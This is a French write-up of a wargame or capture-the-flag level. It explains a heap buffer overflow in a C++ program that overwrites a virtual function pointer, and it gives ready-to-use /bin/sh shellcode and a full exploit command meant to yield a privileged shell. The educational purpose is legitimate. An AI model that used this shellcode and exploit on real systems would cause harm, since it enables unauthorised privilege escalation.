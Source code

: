 # Level 9 - Exploitation d'une classe C++ avec fonctions virtuelles

## Objectif
Exploiter un programme C++ qui utilise des classes avec des fonctions virtuelles pour obtenir un shell avec des privilèges élevés.

## Analyse du programme
1. Le programme crée deux objets d'une classe C++.
2. Il utilise une fonction `setAnnotation` pour copier l'input de l'utilisateur dans le premier objet.
3. Il appelle ensuite une fonction virtuelle du second objet.

## Vulnérabilité
La fonction `setAnnotation` copie l'input sans vérifier sa taille, permettant un dépassement de tampon (buffer overflow).

## Stratégie d'exploitation
1. Écraser le pointeur de fonction virtuelle du second objet.
2. Le faire pointer vers notre shellcode.

## Composants de l'exploit
1. **Adresse du shellcode**: `0x804a00c`
   - C'est l'endroit où notre shellcode sera placé en mémoire.

2. **Shellcode**: 
   ```
   \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
   ```
   - Ce code assembleur exécute `/bin/sh` quand il est exécuté.

3. **NOP sled**: 
   - Une série d'instructions "No Operation" pour augmenter la probabilité de tomber sur notre shellcode.

4. **Structure de la payload**:
   - Adresse du shellcode (4 bytes)
   - Shellcode (21 bytes)
   - NOP sled (83 bytes)
   - Adresse du shellcode répétée (4 bytes)

## Commande d'exploitation
```
./level9 $(python -c 'print "\x0c\xa0\x04\x08" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 83 + "\x0c\xa0\x04\x08"')
```

## Explication de la commande
1. `\x0c\xa0\x04\x08`: Adresse du shellcode (en little-endian).
2. `\x6a\x0b...`: Le shellcode lui-même.
3. `"\x90" * 83`: NOP sled pour remplir l'espace.
4. `\x0c\xa0\x04\x08`: Répétition de l'adresse du shellcode pour écraser le pointeur de fonction virtuelle.

## Fonctionnement
1. Le programme copie notre payload dans le premier objet.
2. Quand il essaie d'appeler la fonction virtuelle du second objet, il saute à notre shellcode.
3. Le shellcode s'exécute, nous donnant un shell avec des privilèges élevés.

## Conclusion
Cette exploitation utilise une combinaison de dépassement de tampon et de manipulation de pointeurs de fonctions virtuelles en C++ pour exécuter du code arbitraire et obtenir un accès privilégié au système.